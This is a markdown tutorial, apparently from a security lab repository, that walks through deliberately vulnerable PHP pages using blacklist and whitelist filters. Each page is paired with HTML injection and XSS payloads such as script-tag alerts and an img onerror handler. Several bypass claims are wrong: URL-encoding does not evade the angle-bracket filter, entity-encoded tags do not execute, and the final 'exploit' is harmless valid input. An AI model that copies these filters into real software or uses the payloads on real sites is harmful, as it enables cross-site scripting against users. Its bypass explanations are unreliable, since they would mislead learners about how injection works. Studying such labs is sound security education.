 
# 🔴 HTML Injection — Blacklist (GET & POST)
---

## 🚫 Blacklist-Based Filtering (GET Method)

```php
html-injection-black-list-get.php
```
```php
<!DOCTYPE html>
<html>
<head>
    <meta charset="utf-8">
    <title>HTML Injection Blacklist - GET</title>
</head>
<body>
    <h1>HTML Injection Blacklist - GET</h1>
    <?php
    if (isset($_REQUEST['user'])) {
        $user_name = preg_replace("/<|>/", "", $_REQUEST['user']); // Removes < and >
        echo "<h2>" . $user_name . "!!</h2>";
    }
    ?>
</body>
</html>
```

### 💥 Exploit:

```url
http://example.com/html-injection-black-list-get.php?user=<h1>XSS</h1>
```

### 🛠️ Bypass Technique:

Use encoded payload:

```
<script>alert('XSS')</script>  
→ Encoded as: %3Cscript%3Ealert('XSS')%3C/script%3E
```

> ⚠️ **Weak blacklist** — only removes `<` and `>`, but many other dangerous inputs like quotes, event handlers, or `img` tags can still execute malicious code.

---

## 🚫 Blacklist-Based Filtering (POST Method)
```php
html-injection-black-list-post.php
```
```php
<!DOCTYPE html>
<html>
<head>
    <meta charset="utf-8">
    <title>HTML Injection Blacklist - POST</title>
</head>
<body>
    <h1>HTML Injection Blacklist - POST</h1>
    <form action="html-injection-black-list-post.php" method="POST">
        User Name: <input type="text" name="user"><br>
        <input type="submit" value="Login">
    </form>

    <?php
    if (isset($_REQUEST['user'])) {
        $user_name = preg_replace("/<|>/", "", $_REQUEST['user']);
        echo "<h2>" . $user_name . "!!</h2>";
    }
    ?>
</body>
</html>
```

### 💥 Exploit:

```php
<h1>Hello!</h1>
```
```php  
<img src=x onerror=alert('XSS')>
```

### 🛠️ Bypass Technique:

> Use HTML entities:

```php
&lt;img src=x onerror=alert(1)&gt;
```

> ⚠️ **Encoding evasion** — Blacklists are easy to bypass using encoded characters or alternative syntax.

---

# 🔴 HTML Injection — Whitelist 

> ⚠️ Weak Whitelist Example — Still Vulnerable
```php
html-injection-white-list.php
```
```php
<!DOCTYPE html>
<html>
<head>
    <meta charset="utf-8">
    <title>HTML Injection Whitelist</title>
</head>
<body>
    <h1>HTML Injection Whitelist</h1>
    <form action="html-injection-white-list.php" method="POST">
        User Name: <input type="text" name="user"><br />
        <input type="submit" value="Login">
    </form>

    <?php
    if (isset($_REQUEST['user'])) {
        $user_name = $_REQUEST['user'];
        if (!preg_match('/[a-z\d_\-\.]/i', $user_name)) {
            die("Don't try to Inject Code");
        } else {
            echo "<h2>" . $user_name . "!!</h2>";
        }
    }
    ?>
</body>
</html>
```

### 💥 Exploit:

```php
<h1>Injected</h1>
```

> ✅ Passes because characters like `h`, `1`, `I`, etc., are in the allowed set.

### 🛠️ Bypass Technique:

```php
a<script>alert(1)</script>
```

> ⚠️ The regex only *checks if input contains* allowed characters — it doesn’t reject bad ones **outside** the list.

---

## 🔥 `html-injection-white-list2.php` — Completely Vulnerable
```php
html-injection-white-list2.php
```
```php
<!DOCTYPE html>
<html>
<head>
    <meta charset='utf-8'>
    <title>Html Injection White List - 2</title>
</head>
<body>
    <h1>Html Injection White List - 2</h1>
    <form action="html-injection-white-list2.php" method="POST">
        User Name: <input type="text" name="user"><br />
        <input type="submit" value="login">
    </form>

    <?php
    if (isset($_REQUEST['user'])) {
        $user_name = $_REQUEST['user'];

        // ❌ Weak Regex: Only checks if ONE allowed char is present
        if (preg_match('/[a-z\d_\.\-]/i', $user_name)) {
            echo '<h2>' . $user_name . '!</h2>'; // No sanitization
        } else {
            die("Don't try to Inject Code");
        }
    }
    ?>
</body>
</html>
```

### 💥 Exploit:

```php
a<script>alert('XSS')</script>
```

> ⚠️ Only one matching character (e.g., `a`) is enough for input to be accepted. Full injection follows.

---

## 🛡️ `html-injection-white-list3.php` — Improved, But Still Risky
```php
html-injection-white-list3.php
```

```php
<!DOCTYPE html>
<html>
<head>
    <meta charset='utf-8'>
    <title>Html Injection White List - 3</title>
</head>
<body>
    <h1>Html Injection White List - 3</h1>
    <form action="html-injection-white-list3.php" method="POST">
        User Name: <input type="text" name="user"><br />
        <input type="submit" value="login">
    </form>

    <?php
    if (isset($_REQUEST['user'])) {
        $user_name = $_REQUEST['user'];

        // Strict Regex: Matches only full valid string
        if (!preg_match('/^[a-z\d\.\-\_]*$/i', $user_name)) {
            die("Don't try to Inject Code");
        } else {
            echo "<h2>" . $user_name . "!</h2>";
        }
    }
    ?>
</body>
</html>
```

### 💥 Exploit:

```php
admin_user-12
```

